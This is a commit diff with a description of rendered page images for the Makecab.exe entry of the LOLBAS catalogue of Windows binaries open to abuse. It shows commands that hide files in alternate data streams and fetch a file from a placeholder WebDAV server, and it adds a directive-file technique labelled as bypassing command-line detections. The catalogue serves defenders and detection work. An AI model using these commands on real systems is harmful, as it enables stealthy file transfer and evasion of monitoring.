

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Makecab.md, in a window 1280 px wide and 1400 px high, scrolled down 573 px. Shown: the whole window at 98% size, without its empty margins (191-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1468 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Applying update LOLBAS-Project/LOLBAS@5b12df2b936cd76bea8d650ffaf0fbc22dff73d1

```diff
--- a/_lolbas/Binaries/Makecab.md
+++ b/_lolbas/Binaries/Makecab.md
@@ -1,7 +1,7 @@
 ---
 Name: Makecab.exe
 Description: Binary to package existing files into a cabinet (.cab) file
-Author: 'Oddvar Moe'
+Author: Oddvar Moe
 Created: 2018-05-25
 Commands:
   - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
@@ -10,7 +10,7 @@ Commands:
     Category: ADS
     Privileges: User
     MitreID: T1564.004
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
     Tags:
       - Type: Compression
   - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
@@ -19,7 +19,7 @@ Commands:
     Category: ADS
     Privileges: User
     MitreID: T1564.004
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
     Tags:
       - Type: Compression
   - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
@@ -28,7 +28,16 @@ Commands:
     Category: Download
     Privileges: User
     MitreID: T1105
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    Tags:
+      - Type: Compression
+  - Command: makecab /F directives.ddf
+    Description: Execute makecab commands as defined in the specified Diamond Definition File (.ddf); see resources for the format specification.
+    Usecase: Bypass command-line based detections
+    Category: Execute
+    Privileges: User
+    MitreID: T1036
+    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
     Tags:
       - Type: Compression
 Full_Path:
@@ -41,6 +50,9 @@ Detection:
   - IOC: Makecab storing data into alternate data streams
 Resources:
   - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
+  - Link: https://ss64.com/nt/makecab-directives.html
+  - Link: https://www.pearsonhighered.com/assets/samplechapter/0/7/8/9/0789728583.pdf
+  - Link: https://learn.microsoft.com/en-us/previous-versions/bb417343(v=msdn.10)#makecab-application
 Acknowledgement:
   - Person: Oddvar Moe
     Handle: '@oddvarmoe'
```
